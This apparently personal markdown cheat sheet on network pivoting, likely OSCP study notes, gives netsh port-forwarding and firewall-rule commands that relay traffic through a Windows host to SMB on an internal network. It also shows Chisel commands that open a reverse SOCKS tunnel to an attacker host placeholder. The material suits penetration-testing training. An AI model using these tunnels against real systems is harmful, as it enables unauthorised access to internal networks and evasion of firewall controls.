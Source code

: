 #Pivoting

## Windows

### Kali PORT -> WIN -> Victim NW PORT

* Check IP Helper Service is running and IPV6 must be enabled for the interface

```cmd
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
## update firewall settings
C:\Windows\system32> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

Check
```cmd
netstat -anp TCP | find "4455" 
```
Nice summary of the oscp slides
https://sushant747.gitbooks.io/total-oscp-guide/content/port_forwarding_and_tunneling.html


# Chisel
Get same version binaries for both hosts
https://github.com/jpillora/chisel/releases

### Tutos
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html
https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29

On attacker host (Kali)
```bash
./chisel server -p 8000 --reverse
```

on the edge host
```bash
./chisel client {attacker_host_ip}:8000 R:socks
```
